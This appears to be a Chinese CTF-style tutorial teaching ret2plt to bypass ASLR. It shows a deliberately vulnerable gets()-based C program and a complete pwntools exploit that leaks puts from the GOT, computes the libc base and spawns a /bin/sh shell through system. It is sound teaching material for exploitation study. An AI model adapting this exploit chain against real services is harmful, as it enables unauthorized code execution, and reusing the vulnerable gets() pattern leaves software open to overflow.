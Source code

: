 ```yaml
---
title: 'ret2plt 绕过 ASLR'
date: '2023-08-23'
lastmod: '2023-08-23'
tags: ['PWN', 'Stack']
draft: false
summary: '绕过 ASLR'
authors: ['default']
---
```


<div className="border-solid border-2 border-surface0 dark:border-surface0-dark p-2 bg-base dark:bg-base-dark mt-5">
  <TOCInline toc={props.toc} asDisclosure />
</div>

## 0x01 概述

这次没有可以直接利用的信息了，你必须使用前面讲到的 ret2plt 技术。在进一步了解之前，请先自己尝试一下。

LINK

```c:source.c
#include <stdio.h>

void vuln() {
  puts("Come get me");

  char buffer[20];
  gets(buffer);
}

int main() {
  vuln();

  return 0;
}
```

## 0x02 分析

我们需要以某种手段泄漏 ASLR 基地址。在这题中，唯一可行的方法是 ret2plt。`gets()` 可以读取任意大小的数据，所以不用担心栈空间不足的问题。我们可以充分利用 `gets()` 构造 ret2plt 的 exploit 链。通过返回到 PLT 表，可以泄漏需要的地址信息。

因此，在栈空间充足的情况下，使用 ret2plt 是最合适的手段。

## 0x03 利用

基本信息：

```python
from pwn import *

context.log_level = 'debug'

elf = context.binary = ELF('./vuln-32')
libc = elf.libc

p = process()
```

现在我们要构造一个可以泄漏 `puts` 真实地址的 payload。根据之前讲到的，调用函数的 PLT 条目等同于调用函数本身。传入 `puts@got` 作为参数，会打印出 `puts` 在 `libc` 中的实际地址，因为 C 语言传递字符串参数传递的是指针。我们知道 `puts@got` 就是一个已知地址，可以打印。这样就可以通过 `puts@plt` 间接获取 `puts@got` 中的内容。

```python
p.recvline()  # 只接收第一个输出

payload = flat(
    'A' * 32,
    elf.plt['puts'],
    elf.sym['main'],
    elf.got['puts']
)
```

调用 `main` 的目的是让程序可以重新运行。如果我们直接返回到一个随机的地址，会让程序崩溃。再次调用 `main` 本质上是重启了程序，这样可以使程序在泄漏 `libc` 的基地址后继续运行。然后我们就可以进行 ret2libc 攻击。

```python
p.sendline(payload)

puts_leak = u32(p.recv(4))
p.recvlines(2)
```

这里需要注意 `puts` 会一直输出，直到遇到空字节，所以它不只是泄漏了 GOT 表中的地址。但我们只关心第一个，也就是 GOT 表里面的前 4 个字节。使用 `u32` 转换为地址。之后，忽略调用 `main` 时产生的其它内容。我们只取关键信息，过滤无用数据。

从这里开始，我们只需要计算出 `libc` 的基地址并执行基本的 ret2libc：

```python
libc.address = puts_leak - libc.sym['puts']
log.success(f'LIBC base: {hex(libc.address)}')

payload = flat(
    'A' * 32,
    libc.sym['system'],
    libc.sym['exit'],  # 虽然这里不需要退出，但这样做更好
    next(libc.search(b'/bin/sh\x00'))
)

p.sendline(payload)

p.interactive()
```

### 1x01 最终 Exploit

```python:exp.py
from pwn import *

context.log_level = 'debug'

elf = context.binary = ELF('./vuln-32')
libc = elf.libc

p = process()

p.recvline()  # 只接收第一个输出

payload = flat(
    'A' * 32,
    elf.plt['puts'],
    elf.sym['main'],
    elf.got['puts']
)

p.sendline(payload)

puts_leak = u32(p.recv(4))
p.recvlines(2)

libc.address = puts_leak - libc.sym['puts']
log.success(f'LIBC base: {hex(libc.address)}')

payload = flat(
    'A' * 32,
    libc.sym['system'],
    libc.sym['exit'],  # 虽然这里不需要退出，但这样做会更好
    next(libc.search(b'/bin/sh\x00'))
)

p.sendline(payload)

p.interactive()
```

## 0x04 64-bit

你知道该怎么做 :) 在 64-bit 上尝试同样的操作。如果需要，你可以使用 pwntools 的 ROP 功能；或者，为了确保你理解调用约定，请大胆地同时执行这两个操作 :P

LINK

